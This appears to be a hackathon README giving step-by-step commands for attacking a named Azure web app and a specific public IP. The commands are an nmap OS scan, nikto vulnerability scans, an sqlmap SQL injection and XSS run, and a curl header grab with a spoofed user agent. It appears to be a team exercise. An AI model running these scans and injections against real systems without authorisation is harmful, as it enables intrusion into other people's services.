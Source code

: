 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery
```
    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 
```
```
    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl
```
## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 
```
    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 
```
![image](https://user-images.githubusercontent.com/97529152/161347761-6c4a72d3-8c94-4d97-8c78-761c182a9f74.png)

**NOTE:**  
This will NOT be successful but will send a lot of SQL injection and XSS traffic to the WebApp. This will identity that there are NO DBs behind the WebApp.

- Grab header and spoof useragent 
```
curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http://52.249.241.69
```
